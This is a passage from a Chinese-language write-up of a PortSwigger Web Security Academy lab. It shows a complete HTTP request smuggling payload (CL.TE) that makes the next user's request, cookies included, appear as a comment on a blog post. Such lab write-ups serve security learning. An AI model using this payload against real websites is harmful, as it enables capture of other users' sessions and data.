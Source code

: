 那么很显然这里有一个comment=，所以只需要构建这样一个包发送即可：

```http
POST / HTTP/1.1
Host: 0a6800a403f1413383246ed900270005.web-security-academy.net
Connection: keep-alive
Content-Length: 1126
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a6800a403f1413383246ed900270005.web-security-academy.net
Cookie: session=2NQumaO6W33x2slHoTvBhKRJzgemreFX
Content-Length: 300
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: https://0a6800a403f1413383246ed900270005.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6800a403f1413383246ed900270005.web-security-academy.net/post?postId=8
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

csrf=Jdx2VKWE6aJDFeX9HmegZS2DazgLtc5I&postId=8&name=1111&email=222%40google.com&website=&comment=
```

接下来再有人向网站发送请求，就会在postID=8的post下面出现一条评论，评论内容就是这个人刚刚提交过的request。对应受害者的界面也会直接变成评论已提交成功。理论上可以搭配其他漏洞再重定向回正常界面，但是技术比较复杂所以暂时还没有研究。
